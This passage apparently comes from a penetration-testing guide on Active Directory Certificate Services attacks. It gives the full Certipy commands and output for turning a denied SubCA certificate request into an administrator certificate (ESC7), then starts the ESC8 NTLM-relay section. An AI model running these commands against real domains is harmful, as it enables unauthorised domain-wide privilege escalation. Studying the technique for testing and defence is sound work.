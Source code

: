 If we have fulfilled the prerequisites for this attack, we can start by **requesting a certificate based on the `SubCA` template**.

**This request will be denie**d, but we will save the private key and note down the request ID.

```bash
certipy req -username john@corp.local -password Passw0rd -ca corp-DC-CA -target ca.corp.local -template SubCA -upn administrator@corp.local
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[-] Got error while trying to request certificate: code: 0x80094012 - CERTSRV_E_TEMPLATE_DENIED - The permissions on the certificate template do not allow the current user to enroll for this type of certificate.
[*] Request ID is 785
Would you like to save the private key? (y/N) y
[*] Saved private key to 785.key
[-] Failed to request certificate
```

With our **`Manage CA` and `Manage Certificates`**, we can then **issue the failed certificate** request with the `ca` command and the `-issue-request <request ID>` parameter.

```bash
certipy ca -ca 'corp-DC-CA' -issue-request 785 -username john@corp.local -password Passw0rd
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Successfully issued certificate
```

And finally, we can **retrieve the issued certificate** with the `req` command and the `-retrieve <request ID>` parameter.

```bash
certipy req -username john@corp.local -password Passw0rd -ca corp-DC-CA -target ca.corp.local -retrieve 785
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Rerieving certificate with ID 785
[*] Successfully retrieved certificate
[*] Got certificate with UPN 'administrator@corp.local'
[*] Certificate has no object SID
[*] Loaded private key from '785.key'
[*] Saved certificate and private key to 'administrator.pfx'
```

## NTLM Relay to AD CS HTTP Endpoints – ESC8

### Explanation

{% hint style="info" %}
In environments where **AD CS is installed**, if a **web enrollment endpoint vulnerable** exists and at least one **certificate template is published** that permits **domain computer enrollment and client authentication** (such as the default **`Machine`** template), it becomes possible for **any computer with the spooler service active to be compromised by an attacker**!
{% endhint %}
